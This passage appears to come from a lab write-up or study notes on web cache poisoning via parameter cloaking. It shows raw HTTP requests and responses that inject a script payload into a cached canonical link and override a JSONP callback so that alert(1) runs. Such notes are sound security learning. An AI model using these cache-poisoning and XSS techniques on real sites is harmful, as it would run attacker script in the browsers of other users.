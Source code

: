 ```
GET /?keyed=1 HTTP/2
Host: vulnerable-website.com

HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 11
X-Cache: hit
Content-Length: 8248

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsBlog.css rel=stylesheet>
        <link rel="canonical" href='//vulnerable-website.com/?keyed=1&excluded=2;keyed='/><script>alert(1)</script>'/>
```

If a website is using `JSONP` to make a cross-domain request, this will often contain a callback parameter to execute a given function on the returned data: 

```
GET /jsonp?callback=innocentFunction
```

In that case, we could use these techniques to override the expected callback function and execute arbitrary JavaScript instead.

As we can see the final server uses the second `callback` parameter and not the first which is cached.

```
GET /jsonp?callback=setCountryCookie&utm_content=benjugat;callback=alert(1)  HTTP/2

HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Cache-Control: max-age=35
Age: 0
X-Cache: miss
Content-Length: 193

const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
alert(1)({"country":"United Kingdom"});
```

```
GET /js/geolocate.js?callback=setCountryCookie HTTP/2

HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 10
X-Cache: hit
Content-Length: 193

const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
alert(1)({"country":"United Kingdom"});
```
